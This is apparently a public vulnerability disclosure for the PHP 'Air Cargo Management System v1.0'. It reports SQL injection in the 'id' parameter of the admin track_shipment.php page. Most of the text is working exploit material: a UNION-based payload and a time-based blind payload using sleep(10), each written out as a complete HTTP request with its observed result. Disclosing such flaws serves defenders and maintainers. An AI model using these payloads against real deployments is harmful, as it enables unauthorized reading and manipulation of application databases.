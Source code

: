 # Air Cargo Management System v1.0 has SQL injection

BUG_Author: XiaoJieSec

Website source address:https://www.sourcecodester.com/php/15188/air-cargo-management-system-php-oop-free-source-code.html

Vulnerability File: /acms/admin/transactions/track_shipment.php

GET parameter 'id' exists SQL injection vulnerability

Payload1:id=-1' union all select null,null,null,CONCAT(0x23242526,0x73747576),null-- -

```
GET /acms/admin/transactions/track_shipment.php?id=-1%27%20union%20all%20select%20null,null,null,CONCAT(0x23242526,0x73747576),null--%20- HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php
Connection: close
```

union query success

![image](https://github.com/Hackergrave/bug_report/blob/main/sql1.png)

Payload2:id=1' and (select 1 from (select(sleep(10)))a) and 'd'='d

```
GET /acms/admin/transactions/track_shipment.php?id=1%27%20and%20(select%201%20from%20(select(sleep(10)))a)%20and%20%27d%27=%27d HTTP/1.1
Host: localhost
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=ajjmkcq73hjl8r1bb7b4smsaob
Connection: close
```

The response time of the server is greater than 10 seconds

![image](https://github.com/Hackergrave/bug_report/blob/main/sql2.png)
